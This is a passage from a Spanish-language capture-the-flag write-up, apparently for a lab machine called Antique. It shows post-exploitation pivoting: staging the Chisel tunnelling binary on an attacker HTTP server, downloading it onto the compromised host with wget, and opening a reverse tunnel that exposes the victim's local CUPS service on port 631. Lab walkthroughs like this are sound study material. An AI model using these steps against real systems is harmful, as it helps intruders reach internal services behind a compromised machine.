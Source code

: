 ```bash
tcp        0      0 10.10.11.107:48040      10.10.16.6:443          ESTABLISHED
tcp        0      0 10.10.11.107:48036      10.10.16.6:443          ESTABLISHED
tcp6       0      0 ::1:631                 :::*                    LISTEN     
```

Con el objetivo de acceder al servicio CUPS, el cual solo escucha localmente en el puerto 631, decidí utilizar Chisel, una herramienta que permite crear túneles reversos mediante HTTP. Para ello, inicié un servidor en mi máquina. Esto habilitó el modo reverse y dejó el servidor escuchando en el puerto 8000, a la espera de conexiones salientes desde la máquina víctima. 
```bash
❯git clone https://github.com/jpillora/chisel
❯ cd chisel
❯ sudo ./chisel server -p 8000 --reverse
2025/06/21 02:53:09 server: Reverse tunnelling enabled
2025/06/21 02:53:09 server: Fingerprint Lux+apu+2oRbxCFKgE7SIkMc6NoUUmRfI7iVxPoreCM=
2025/06/21 02:53:09 server: Listening on http://0.0.0.0:8000
```

Para establecer la conexión desde la máquina hacia mi servidor, primero descargué la versión precompilada de Chisel. Una vez descargado el archivo comprimido, lo descomprimí con gunzip, obteniendo así el binario chisel_1.7.7_linux_amd64.
```bash
❯ wget https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
❯ gunzip chisel_1.7.7_linux_amd64.gz
```

Para facilitar la transferencia del binario a la máquina, levanté un servidor HTTP local utilizando Python.
```
❯ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Desde la máquina, descargue el binario de Chisel.
```bash
lp@antique:/tmp$ wget 10.10.16.6:80/chisel_1.7.7_linux_amd64
  http://10.10.16.6/chisel_1.7.7_linux_amd64
Connecting to 10.10.16.6:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 8077312 (7.7M) [application/octet-stream]
Saving to: ‘chisel_1.7.7_linux_amd64’

chisel_1.7.7_linux_ 100%[===================>]   7.70M  3.55MB/s    in 2.2s    

 (3.55 MB/s) - ‘chisel_1.7.7_linux_amd64’ saved [8077312/8077312]
```

Una vez descargado Chisel, le otorgue permisos de ejecución y configure un túnel reverso para exponer el servicio local de CUPS (port 631) de la máquina víctima hacia el host atacante.
```bash
lp@antique:/tmp$ chmod +x chisel_1.7.7_linux_amd64
lp@antique:/tmp$ ./chisel_1.7.7_linux_amd64 client 10.10.16.6:8000 R:9631:localhost:631
2025/06/21 07:20:53 client: Connecting to ws://10.10.16.6:8000
2025/06/21 07:20:56 client: Connected (Latency 163.66278ms)
```
